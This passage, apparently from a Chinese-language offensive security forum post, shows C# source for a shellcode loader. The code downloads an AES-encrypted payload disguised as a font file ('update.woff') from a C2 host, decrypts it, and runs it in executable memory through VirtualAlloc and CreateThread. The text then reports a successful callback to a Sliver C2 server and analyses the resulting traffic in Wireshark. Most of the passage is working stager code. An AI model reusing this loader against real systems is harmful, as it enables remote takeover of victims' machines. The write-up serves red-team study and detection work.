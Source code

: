 ```CS
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] buf)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x3000, 0x40);
            Marshal.Copy(buf, 0, (IntPtr)(addr), buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }

        static void Main(string[] args)
        {
            byte[] shellcode_encrypt = Download("http://172.16.181.182/update.woff");
            byte[] shellcode = Decrypt(shellcode_encrypt, AESKey, AESIV);
            Execute(shellcode);
            return;
        }
    }
}
```

### 编译执行及流量分析

选择 x64 编译执行后，等待片刻，成功上线 Sliver C2。  
![p9BHKpR.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-5bf26e3a9ce51eb6aafd9c6bbc0b7edb810f19d2.png)

同样，打开 WireShark 抓取流量分析，使用下面过滤器命令可以看到目标主机像我们的C2服务器请求了一份 update.woff 文件，即经过 AES 加密后的 Stager 代码。
